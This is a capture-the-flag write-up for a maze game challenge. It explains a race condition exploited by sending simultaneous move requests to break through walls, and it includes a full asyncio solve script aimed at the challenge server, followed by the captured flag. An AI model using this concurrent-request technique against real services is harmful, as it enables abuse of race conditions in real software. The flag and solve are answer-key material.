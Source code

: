 ```yaml
---
ai_date: '2025-04-27 05:18:13'
ai_summary: Race condition exploit by sending simultaneous move requests to overwrite
  wall tiles
ai_tags:
- race
- http-hdr
- rce
created: 2024-07-19T18:28
points: 100
solves: 100
updated: 2024-07-21T18:39
---
```


## race condition

The server fetched "possible moves", does some database manipulation, and updates possible moves at the end. There is a time frame in between where the player is still allowed to move in the direction of the wall.

It's a race condition challenge, by sending two or more requests to move at the same time we have a chance of smashing through the obstacle, effectively overwriting the wall with blank tiles.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1721428085/2024/07/db612e22179b33fa758f1862f4bb4076.png)

My method is simple:
1. Send multiple move requests at once
2. If nothing changed, we are stuck, back away in the opposite direction.
3. Repeat until we reach the top right corner.
4. Rotate the response 90 degrees so we can run the exact same logic above again.

**caveat**, my method only works if the second row's last column is empty, because the vertical descend needs some space to initiate the first smash.

```
@..#...#..##...#.#..###..#..#..#.#.
.....#...#...##...#..#..###..#.#... <- this tile has to be empty
```

## solve script

```python
import asyncio
import aiohttp
import re
mid = "857c86f0-df2d-4f42-ad98-b766b2b1dc1b"
info = f"http://the-amazing-race.chal.imaginaryctf.org/{mid}"
target = f"http://the-amazing-race.chal.imaginaryctf.org/move?id={mid}&move="


async def move(session, direction, rot=0):
    response = await (session.post(url=target+direction) if len(direction) > 0 else session.get(url=info))
    if response.status != 200:
        print("huh", direction)
        return await move(session, direction, rot)
    resp = await response.read()
    resp = re.search("><code>\n([.@#\nF]+)\n</code>", resp.decode()).group(1)
    if rot == 1:
        resp = rotate_anticlockwise(resp)
    return resp

opp = {"right": "left", "left": "right", "up": "down", "down": "up"}
smash_dir = ["right", "down"]


def rotate_anticlockwise(text):
    lines = text.split('\n')
    return '\n'.join(''.join(line[-i-1] for line in lines) for i in range(len(lines[0])))


async def smash_right(session, rot=0):
    resp = await move(session, '', rot)
    lastResp = resp
    smashing_move = smash_dir[rot]
    backing_move = opp.get(smashing_move)
    while "@\n" not in resp and resp[-1] != '@':
        if lastResp == resp and not resp[0] == '@':  # got stuck
            resp = await move(session, backing_move, rot)
            print([x for x in resp.splitlines() if "@" in x], 'backing...', backing_move)
        lastResp = resp
        await asyncio.gather(*(move(session, smashing_move, rot) for _ in range(2)))
        resp = await move(session, '', rot)
        print([x for x in resp.splitlines() if "@" in x], 'smash!', smashing_move)


async def smasher():
    async with aiohttp.ClientSession() as session:
        await smash_right(session)
        print("reached top right most corner!")
        await smash_right(session, 1)
        print("reached flag")
        await move(session, "down")
        print(await (await session.get(url=info)).read())


asyncio.run(smasher())
```

```flag
ictf{turns_out_all_you_need_for_quantum_tunneling_is_to_be_f@st}
```